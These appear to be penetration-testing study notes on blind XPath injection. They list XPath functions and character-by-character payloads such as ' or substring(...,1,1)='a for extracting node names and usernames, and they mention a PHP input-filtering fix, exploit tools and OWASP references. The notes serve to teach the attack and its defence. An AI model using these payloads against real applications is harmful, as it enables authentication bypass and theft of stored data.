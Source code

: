 ```
    • Bypassing authentication
    • Extracting the XML document structure and contents

    Some useful XPath statements to remember during the exploit are:
    *[1] Returns the root node
    name(*[1]) XPath function returning the identifier of the root node
    (users in our example)
    name(/users/*[1]) A function returning the identifier of the first child of the
    root node (user in our example)
    /users/user[position
    ()=1]/username
    Selects the username of the first user node (example). The
    user node is child of the root users node.
    Substring(‘label’,1,1) An XPath function returning the first character of the label
    string – ‘l’

    To get the first character of the string, the attacker must insert all
    of the following payload data until the TRUE condition is met:
    • ' or substring(name(/*[1]),1,1)= 'a
    • ' or substring(name(/*[1]),1,1)= 'b
    • ' or substring(name(/*[1]),1,1)= 'c
    • . . .
    • ' or substring(name(/*[1]),1,1)='u
    • This payload will verify the TRUE condition; so, the first character of the
    identifier is ‘u’

    In our example, the first username in the list is philip. The attacker
    will perform multiple XPath queries to find out all identifier’s
    characters:
    • ' or substring(/users/user[position()=1]/username,1,1)= 'a
    • ' or substring(/users/user[position()=1]/username,1,1)= 'b
    • ' or substring(/users/user[position()=1]/username,1,1)= 'c
    • . . .
    • ' or substring(/users/user[position()=1]/username,1,1)= 'p

    A good practice would be to filter out any non- alphanumerical
    character.
    Here is a very basic example:
    • $username=filterChars($_GET['username']);
    • $password=filterChars($_GET['password']);
    • $query="//user[username/text()='".$username."' and
    password/text()='".$password."']/username"; 


    Due to the nature of the exploit, the process can take a very long
    time, but it can be easily automated. To this end, many interesting
    exploit tools have been developed; the most important are:
    • XPath Blind Explorer http://code.google.com/p/xpath-blind-explorer/
    • Xcat https://github.com/orf/xcat
    Here you can find very useful resources:
    • XPath Injection 
    https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010)
    • Blind XPath https://www.owasp.org/index.php/Blind_XPath_Injection
```
# ewpt-notes
